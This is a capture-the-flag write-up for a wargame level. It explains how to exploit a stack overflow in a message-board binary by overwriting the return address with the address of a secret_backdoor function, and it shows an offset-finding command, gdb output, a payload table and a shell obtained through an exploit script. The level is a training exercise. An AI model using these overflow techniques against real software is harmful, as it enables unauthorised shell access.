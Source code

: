 # This is the end (level09)

This last [binary](source.c) is a leet message board. The user inputs his
username and a message on stdin. This is done through protected `fgets` calls.
However the *set_username* function starts writing the given *username* from the
end of the 140 bytes *buffer*, directly overflowing it. It writes 41 bytes of
username and prints a welcome to the user. Then *set_msg* reads a message into
a 1024 bytes buffer. It copies it in the same buffer but from the start.

This `strncpy` call is really vulnerable since it takes it size value from the
180th byte of the input buffer (yeah weird, I know). So basically we can decide
how much of the message we want to write by setting the last byte of the
username to a character of this value. This means that we can write up to 255
characters in the 140 bytes buffer.

All we have to do is compute the offset for the return address of the
*handle_msg* function where the buffer resides from the said buffer. Then we set
the bytes of the message at this offset to be the address of the
*secret_backdoor* function which will give us a shell.

We try with this command as input for the message prompt to get the offset:

```shell
python -c 'print "a" * 180 + "bbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmm"'
```

> Here the 41st charcter of the username is 0xff so that we overflow as much as
> possible.

This results in a segfault in gdb at the address '0x6868686867676767' which is
'gggghhhh' in memory. So our offset is 200 and we need to write 8 bytes because
this is a 64bit binary.

We get the address of the backdoor in gdb:

```shell
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

So here are the payloads:

| input    | padding   | payload                                 |
|----------|-----------|-----------------------------------------|
| username | "a" * 40  | 0xd0 which is 208 in decimal            |
| message  | "a" * 200 | 0x55555555488c secret\_backdoor address |

Just run the [exploit.bash](exploit.bash) script and you get your shell:

```shell
# run the exploit
./exploit.bash | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>: Msg @Unix-Dude
>>: >: Msg sent!
# enjoy your shell
whoami
end
```
